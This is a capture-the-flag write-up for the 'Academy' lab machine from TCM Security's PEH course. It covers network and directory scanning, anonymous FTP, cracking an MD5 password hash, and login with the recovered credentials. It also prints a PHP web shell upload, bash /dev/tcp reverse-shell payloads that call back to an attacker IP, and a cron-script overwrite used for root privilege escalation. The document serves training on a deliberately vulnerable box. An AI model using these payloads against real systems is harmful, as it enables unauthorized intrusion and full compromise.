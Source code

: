 ```yaml
---
title: "Academy Box - PEH Capstone TCM Security"
description: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
summary: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
date: 2024-02-04
draft: false
tags: ["Web", "CTF", "Linux"]
---
```


------------------------

> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH


Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM.

![image](md/264f4aa5-62fd-47d0-bb51-88a1fe8211e7.webp)

After starting the target VM.

![image](md/48ec1846-d9e4-4f40-a996-91b68db451f8.webp)


Now that we have the target IP `192.168.0.113` let's run the `nmap`.

```bash
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```


Here we see that port `21,22,80` are open.

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](md/94033cfd-6173-49d2-bc31-18b3621d137f.webp)

![image](md/8028de5e-668e-4123-8aef-42e27cb07c85.webp)


The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page.

![image](md/d0094763-f520-4028-a338-0aca0d6cb604.webp)


There is nothing much to see in this default page so let's do the directory brute force.


```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting:
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/

Task Completed
```


We found the `/phpmyadmin/` and `/academy/` directories on the `http://192.168.0.113/academy/` page we have one login form.

![image](md/8dcd96ba-f63a-4524-9ea6-95156c8ce0df.webp)


Let's try the login credentials `10201321:student` that we found previously from ftp note.

![image](md/a36b56d4-987e-4e97-834f-f1f0fc105bf4.webp)


It worked we are now logged in. \
On the My Profile page we have file upload functionality.

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server.

![image](md/08e0c9d1-2522-4e8a-9fc3-4a19c13bc969.webp)


we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"` \
reference: https://www.revshells.com

![image](md/4dc9b13a-e0a3-4ff4-82fd-5a32fb2b0270.webp)

![image](md/4cf54a48-a797-4c62-ae47-f0e3a7fa91a5.webp)


In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie.

![image](md/a6efd8be-7132-4ee9-86b2-b44bcb917ba6.webp)


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access.

![image](md/ee82ccab-380c-485d-855c-247e8e2e7dcc.webp)


Reverse shell payload to get shell as root:

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](md/0c2c4b55-7951-4637-ab07-86077b1ce395.webp)

![image](md/b1a801aa-7b03-4d4d-849a-6a7532c95b22.webp)


Flag:

![image](md/50dbf9b2-9236-4656-95ff-e7747b222a6c.webp)

Happy Hacking
